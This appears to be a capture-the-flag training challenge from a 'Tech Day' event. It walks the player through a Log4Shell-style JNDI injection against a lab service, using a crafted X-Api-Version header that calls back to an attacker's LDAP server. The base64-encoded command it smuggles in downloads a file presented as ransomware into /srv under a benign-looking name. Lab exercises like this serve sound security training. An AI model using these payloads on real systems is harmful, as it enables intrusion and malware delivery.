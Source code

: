 # C1 - File Storage Security - Task 5: Drop It Like It’s Hot 🔥

## DESCRIPTION

Now that you’ve set up the malicious server, time to run the exploit.

To do this, you have to make a request to http://sudosingles-optimizer. But you’re going to include a specially crafted header to call back to your malicious LDAP server and execute a command.

For this challenge, the command you want to execute inside the sudosingles-optimizer container will reach out to a malicious URL and drop a scary payload onto the filesystem—a payload which will execute whenever a user visits the website.

## DETAILS

The malicious command you want to execute is:

curl PAYLOADDROPPERURL --output /srv/connectioncheck

Where PAYLOADDROPPERURL is the value found in FSSPayloadDropperUrl in the credential field below.

FSSPayloadDropperUrl is a special URL that can be used to drop a ransomware payload. When the above command executes in the container running sudosingles-optimizer, it will drop a nasty file in the /srv directory, disguised as something benign.

Just like before, you’ll make a request to your malicious LDAP server using curl on the attack machine. Open another Terminal Emulator window and run the following command:

curl http://sudosingles-optimizer -H 'X-Api-Version: ${jndi:ldap://YOURIP:1389/Basic/Command/Base64/PAYLOAD}'

Where PAYLOAD is the malicious command that we crafted above and YOURIP is the attack machine’s private IP.

However, you’ll notice that if you just try to substitute the malicious command for PAYLOAD, then run the whole request to sudosingles-optimizer above, the exploit won’t work. Something is missing…

Maybe you need to encode PAYLOAD somehow? Hm…

When you believe you’ve successfully performed the exploit, click “Verify” to check your work.

## NOTES

No actual ransomware is used in this challenge, so don’t worry. We’re just having fun here on Tech Day.

## SCORING

payloadChecker

## HINTS

### HINT 1

/Basic/Command/Base64 might be a hint! And the challenge said to "encode"… hmm……

### HINT 2

You need to encode the malicious command as base64, and add it to the ldap URL. For example: ${jndi:ldap://YOURIP:1389/Basic/Command/Base64/BASE_64_ENCODED_COMMAND}. If that isn’t working for you, triple-check to make sure that you have encoded the malicious command correctly.

### HINT 3

1. Craft the malicious command: curl PAYLOADDROPPERURL --output /srv/connectioncheck
2. Encode it as base64 using any tool. Base64encode.org is a great option.
3. Replace it in the command: curl http://sudosingles-optimizer -H 'X-Api-Version: ${jndi:ldap://YOURIP:1389/Basic/Command/Base64/PAYLOAD}'
4. Execute
